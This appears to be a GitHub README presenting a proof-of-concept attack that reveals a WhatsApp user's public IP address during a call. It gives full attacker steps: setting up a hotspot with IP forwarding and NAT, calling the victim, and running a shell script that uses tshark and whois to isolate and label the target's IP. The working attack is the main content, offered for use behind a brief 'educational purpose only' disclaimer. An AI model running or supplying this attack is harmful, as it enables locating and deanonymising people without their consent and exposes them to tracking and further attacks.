 # whatsapp_hack
Leak Public IP from victim caller.

This program is for Educational purpose ONLY. Do not use it without permission. I am not responsible for any of your actions. Use this tool with caution.

## Attack the victim

Install hotspotd with these steps:
```
wget https://github.com/prahladyeri/hotspotd/raw/master/dist/hotspotd-latest.tar.gz
tar xvf hotspotd-latest.tar.gz
cd hotspotd-0.1.6/
sudo python setup.py install
```

- Step 1: Start WiFi hotspot on attacker machine and connect attacker phone to attacker SSID
- Step 2: Run the following commands:
 ```
 echo 1 > /proc/sys/net/ipv4/ip_forward
 iptables -t nat -I POSTROUTING -j MASQUERADE
 ```
- Step 3: Start the PoC script (below) on attacker machine which is now acting as a router for attacker phone
- Step 4: Call any whatsapp user randomly to capture the server IP addresses to filter
- Step 5: Call victim on his whatsapp
- Step 6: Disconnect the call once established
- Step 7: Script will reveal the public IP address of the target
- Step 8: Validate the public IP address on target phone

## Exploit

```
#!/bin/sh

filter=`tshark -i eth0 -T fields -f "udp" -e ip.dst -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" -c 100 |sort -u |xargs|sed "s/ / and ip.dst!=/g" |sed "s/^/ip.dst!=/g"`

echo "Press Enter and call your target."

read line

tshark -i eth0 -l -T fields -f "udp" -e ip.dst -Y "$filter" -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" | while read line 
do 
	whois $line > /tmp/b

	filter=`cat /tmp/b |xargs| egrep -iv "facebook|google"|wc -l`

	if [ "$filter" -gt 0 ] ; then 
		targetinfo=`cat /tmp/b| egrep -iw "OrgName:|NetName:|Country:"` 
		echo $line --- $targetinfo 
	fi 
done


```
## Credit

## [bhdresh](https://github.com/bhdresh)
